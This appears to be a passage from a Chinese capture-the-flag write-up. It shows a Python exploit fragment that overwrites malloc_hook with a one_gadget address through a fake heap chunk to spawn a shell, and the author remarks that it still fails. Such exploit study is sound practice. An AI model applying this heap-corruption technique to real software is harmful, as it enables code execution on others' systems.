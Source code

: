 ```python
    index_sentence(fake_chunk)
    index_sentence('a'*0x60)
    index_sentence('b'*0x60)
    #将a、b申请掉

    #后面的地址由工具得出，并不存在一致性
    one_gadget_addr = libc_base + 0xf02a4
    #fake_chunk的写入处与malloc_hook的偏移为0x13
    #0x23-0x10
    payload = 'a'*0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60,'f')
    index_sentence(payload)

    sh.interactive()

if __name__=="__main__":
    exp()
```

艹，又打不通。

